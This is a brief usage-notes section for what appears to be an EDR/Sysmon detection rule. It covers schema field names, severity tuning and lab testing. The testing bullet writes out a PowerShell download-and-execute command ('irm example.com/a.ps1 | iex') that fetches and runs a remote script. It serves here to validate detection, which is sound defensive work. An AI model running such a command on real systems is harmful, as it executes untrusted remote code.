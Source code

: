 # Usage Notes

- Field names: Adjust `Image`, `CommandLine` for your EDR/Sysmon schema.
- Tuning: Start in `informational` mode; promote to `high` once baseline is known.
- Testing: Use benign PS commands (e.g., `powershell -c "irm example.com/a.ps1 | iex"`) in lab only.
